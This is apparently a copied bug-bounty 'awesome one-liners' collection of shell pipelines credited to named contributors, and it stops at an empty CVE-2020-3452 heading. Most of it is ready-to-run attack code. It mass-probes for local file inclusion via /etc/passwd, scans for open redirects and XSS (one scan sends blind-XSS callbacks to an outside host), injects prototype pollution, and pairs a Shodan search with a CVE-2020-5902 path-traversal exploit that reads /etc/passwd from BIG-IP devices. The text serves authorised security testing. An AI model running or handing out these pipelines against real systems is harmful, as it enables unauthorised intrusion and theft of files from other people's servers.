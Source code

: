 



https://reconshell.com/awesome-one-liner-bug-bounty/

A collection of awesome one-liner scripts especially for bug bounty tips.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily welcome.
###Local File Inclusion

@dwisiswant0

gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

###Open-redirect

@dwisiswant0

export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'

@N3T_hunt3r

cat waybackurl.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null

###XSS

@cihanmehmet

gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt

@fanimalikhack

 waybackurls testphp.vulnweb.com | gf xss | sed 's/=.*/=/' | sort -u | tee Possible_xss.txt && cat Possible_xss.txt | dalfox -b blindxss.xss.ht pipe > output.txt

###Prototype Pollution

@R0X4R

subfinder -d target.com -all -silent | httpx -silent -threads 300 | anew -q alive.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"

###CVE-2020-5902

@Madrobot_

shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done

###CVE-2020-3452

@vict0ni
